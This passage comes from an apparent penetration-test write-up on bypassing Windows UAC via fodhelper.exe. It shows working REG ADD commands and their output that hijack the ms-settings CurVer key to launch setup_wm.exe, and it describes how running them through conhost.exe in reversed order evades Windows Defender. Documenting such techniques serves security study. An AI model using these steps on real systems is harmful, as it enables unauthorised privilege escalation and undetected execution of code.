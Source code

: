 So, since the user is in the `Administrators` group, I can try to bypass UAC. There are various methods to do this, some of them, based on the exploitation of `Fodhelper.exe`, are very simple to implement, such as the following:
- [https://github.com/P4R4D0X-HACKS/UAC-Bypass/blob/main/script.ps1](https://github.com/P4R4D0X-HACKS/UAC-Bypass/blob/main/script.ps1)
- [https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692](https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692)

Unfortunately, these methods are promptly detected by Windows Defender, which blocks the exploitation and kills the PowerShell process: [HackTool:Win32/UACBypass.A](https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=HackTool:Win32/UACBypass.A&threatId=-2147190855)

However, by making some minor corrections to the launched commands and reversing the order in which the registry keys are modified, I can nimbly bypass Defender's monitoring and exploit `fodhelper.exe`.
To do this, I used a legitimate Microsoft system executable present in all Windows installations, namely `C:\Windows\System32\conhost.exe`. As you can see from [LOLBAS](https://lolbas-project.github.io/lolbas/Binaries/Conhost/), I can use `conhost.exe` to execute arbitrary commands. This way, Windows Defender will see that `conhost.exe` is modifying registry keys, not `PowerShell.exe`, dramatically increasing the stealthiness of the change.
In addition, reversing the order in which commands are executed also leads Defender to not suspect that a UAC bypass is taking place; in fact, as a first action, I will go to modify `HKCU:\Software\Classes\ms-settings\CurVer` by assigning a class that does not yet exist and will be created later. Generally, it is the modification of said registry key that triggers Windows Defender, but by assigning it a non-existent class, no detection is raised. The class will be created later.
```powershell
conhost.exe cmd /c REG ADD "HKCU\Software\Classes\ms-settings\CurVer" /D ".MrTiz" /F
conhost.exe cmd /c REG ADD "HKCU\Software\Classes\.MrTiz\Shell\Open\command" /D "conhost.exe cmd /c C:\Users\MrTiz\Downloads\setup_wm.exe" /F
```
```powershell
Get-ItemProperty -Path HKCU:\Software\Classes\ms-settings\CurVer

(default)    : .MrTiz
PSPath       : Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\Software\Classes\ms-settings\CurVer
PSParentPath : Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\Software\Classes\ms-settings
PSChildName  : CurVer
PSDrive      : HKCU
PSProvider   : Microsoft.PowerShell.Core\Registry
```
```powershell
Get-ItemProperty -Path HKCU:\Software\Classes\.MrTiz\Shell\Open\command

(default)    : conhost.exe cmd /c C:\Users\MrTiz\Downloads\setup_wm.exe
PSPath       : Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\Software\Classes\.MrTiz\Shell\Open\command
PSParentPath : Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\Software\Classes\.MrTiz\Shell\Open
PSChildName  : command
PSDrive      : HKCU
PSProvider   : Microsoft.PowerShell.Core\Registry
```
